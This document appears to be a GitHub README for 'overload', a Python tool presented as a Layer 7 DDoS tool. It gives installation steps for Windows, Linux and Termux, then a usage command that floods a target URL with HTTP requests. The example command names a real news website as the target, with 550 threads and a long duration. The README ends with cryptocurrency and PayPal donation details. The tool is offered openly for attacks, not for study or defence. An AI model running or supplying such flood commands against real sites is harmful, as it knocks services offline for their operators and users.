 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Main Window:
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Installation:


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Download Python 3.8 [here](https://www.python.org/downloads/release/python-38)
  - Open the installer and click on: `add python to PATH`
  - Download overload <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">here</a>
  - Open CMD or PowerShell in the overload directory
  - Execute this command: `pip3 install -r requirements.txt or python -m pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ How To Use:
The basic command to be able to execute Overload:

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```

## 💰 Donate:


  BTC `bc1qhsdvfaee48qpauxzyccyjjxd7laggmlvyzketh` 
  ETH `0xA438762F645A4DcE1a4c7be66D0E787B8cDb30bd` 
  PayPal `https://paypal.me/goncalopolido` 
